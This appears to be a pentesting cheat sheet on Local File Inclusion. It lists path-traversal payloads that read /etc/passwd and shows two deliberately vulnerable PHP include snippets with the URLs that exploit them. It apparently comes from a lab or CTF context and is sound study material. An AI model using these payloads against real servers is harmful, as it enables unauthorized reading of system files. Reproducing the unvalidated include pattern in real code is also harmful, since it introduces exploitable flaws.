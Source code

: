 # LFI

## Payloads

```shell
../../../../etc/passwd
../../../../etc/passwd/.
../../../../etc/passwd%00
....//....//....//....//....//etc/passwd

Example:
http://10.10.13.178/lab6.php?file=THM-profile/../../../../etc/os-release%00
```

## Case 1 | Basic Get request

```php
<?PHP 
	include($_GET["lang"]);
?>
```
A `GET` request via URL parameter `lang` to include the file of the page. This can be calld with:  
`http://homepage.com/index.php?lang=EN.php` to load the `EN.php`.

If there isn't a input validatione, we can read any file e.g. `/etc/passwd`. We can try the following:   
`http://homepage.com/get.php?file=/etc/passwd`.
That is possible because the `include` function has no validation.

## Case 2 | Given directory

```php
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```

The directory is given but if there is no input validation, we can `path traversal` with the following payload  
`http://homepage/index.php?lang=../../../../etc/passwd`